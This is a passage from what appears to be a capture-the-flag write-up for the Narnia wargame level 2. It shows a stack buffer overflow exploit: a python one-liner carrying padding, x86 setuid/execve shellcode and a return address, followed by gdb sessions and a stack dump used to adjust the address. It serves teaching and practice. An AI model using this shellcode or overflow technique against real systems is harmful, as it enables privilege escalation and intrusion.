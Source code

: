 > Busted. It looks like it tried to execute our shellcode, but I'm running this on a 64-bit machine and our shellcode was made for a 32-bit.
>
>```
># file narnia2 
>narnia2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x0c45d7047b18ac015ea5c89b1fe8cb19b1d7eee1, not stripped
>```
>
> Let's swing on over to the server and give it a try.
>
>```
>narnia2@melinda:/narnia$ ./narnia2 $(python -c 'print "A"*112+"\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"+"\xf0\xd6\xff\xff"')
>Segmentation fault
>```
>
> Ok, so I may need to remap things a bit, let's go back to gdb and see if we can find a new address.
>
>```asm
>narnia2@melinda:/narnia$ gdb narnia2
>(gdb) run $(python -c 'print "A"*112+"R"*28+"AAAA"')
>Starting program: /games/narnia/narnia2 $(python -c 'print "A"*112+"R"*28+"AAAA"')
>
>Program received signal SIGSEGV, Segmentation fault.
>0x41414141 in ?? ()
>(gdb) x/300x $esp
>0xffffd660:	0x00000000	0xffffd6f4	0xffffd700	0xf7feacea
>0xffffd670:	0x00000002	0xffffd6f4	0xffffd694	0x08049768
>0xffffd680:	0x0804821c	0xf7fca000	0x00000000	0x00000000
>0xffffd690:	0x00000000	0x0ef25302	0x36cad712	0x00000000
>0xffffd6a0:	0x00000000	0x00000000	0x00000002	0x08048360
>0xffffd6b0:	0x00000000	0xf7ff0500	0xf7e3c979	0xf7ffd000
>0xffffd6c0:	0x00000002	0x08048360	0x00000000	0x08048381
>0xffffd6d0:	0x0804845d	0x00000002	0xffffd6f4	0x080484d0
>0xffffd6e0:	0x08048540	0xf7feb180	0xffffd6ec	0x0000001c
>0xffffd6f0:	0x00000002	0xffffd820	0xffffd836	0x00000000
>0xffffd700:	0xffffd8c7	0xffffd8dc	0xffffd8ec	0xffffd8f7
>0xffffd710:	0xffffd917	0xffffd92b	0xffffd934	0xffffd941
>0xffffd720:	0xffffde62	0xffffde6d	0xffffde78	0xffffded6
>0xffffd730:	0xffffdeed	0xffffdefc	0xffffdf08	0xffffdf19
>0xffffd740:	0xffffdf22	0xffffdf35	0xffffdf3d	0xffffdf4d
>0xffffd750:	0xffffdf80	0xffffdfa0	0xffffdfc0	0x00000000
>0xffffd760:	0x00000020	0xf7fdbb20	0x00000021	0xf7fdb000
>0xffffd770:	0x00000010	0x1f898b75	0x00000006	0x00001000
>0xffffd780:	0x00000011	0x00000064	0x00000003	0x08048034
>0xffffd790:	0x00000004	0x00000020	0x00000005	0x00000008
>0xffffd7a0:	0x00000007	0xf7fdc000	0x00000008	0x00000000
>0xffffd7b0:	0x00000009	0x08048360	0x0000000b	0x000036b2
>0xffffd7c0:	0x0000000c	0x000036b2	0x0000000d	0x000036b2
>0xffffd7d0:	0x0000000e	0x000036b2	0x00000017	0x00000000
>0xffffd7e0:	0x00000019	0xffffd80b	0x0000001f	0xffffdfe2
>0xffffd7f0:	0x0000000f	0xffffd81b	0x00000000	0x00000000
>0xffffd800:	0x00000000	0x00000000	0x42000000	0x49b1fc36
>0xffffd810:	0xb27ef8af	0x436bc3ff	0x699118bb	0x00363836
>0xffffd820:	0x6d61672f	0x6e2f7365	0x696e7261	0x616e2f61
>0xffffd830:	0x61696e72	0x41410032	0x41414141	0x41414141
>0xffffd840:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd850:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd860:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd870:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd880:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd890:	0x41414141	0x41414141	0x41414141	0x41414141